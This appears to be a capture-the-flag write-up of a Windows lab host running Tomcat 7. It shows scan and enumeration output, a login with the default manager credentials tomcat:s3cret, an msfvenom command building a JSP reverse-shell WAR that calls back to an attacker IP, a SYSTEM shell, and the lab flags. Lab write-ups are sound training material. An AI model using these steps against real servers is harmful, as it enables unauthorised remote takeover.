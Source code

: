 #nmapscan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 10:10 EDT
Nmap scan report for 10.10.10.95
Host is up (0.095s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   94.14 ms 10.10.14.1
2   95.91 ms 10.10.10.95

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.31 seconds
```
#enumeration 
```
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]             
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/lpt1                 (Status: 200) [Size: 0]                     
/lpt2                 (Status: 200) [Size: 0]                     
/manager              (Status: 302) [Size: 0] [--> /manager/]     
/nul                  (Status: 200) [Size: 0]               
```
Now,after few min of enumeration I tried to login with the default creds for tomcat manager```tomcat:s3cret```
and it worked though cred are mostly changed but in this case it was not
```
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```
generally cred are stored in /conf/tomcat-users.xml.
#reverseshellupload 
In the manager page we had a option to upload a war file and so I tried to upload and run a war reverse shell
```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f war > shell.war
```
this how we create nd then upload and run it to get reverse shell
#rootescalation 
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
we didn't had to do root escalation at all
```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```
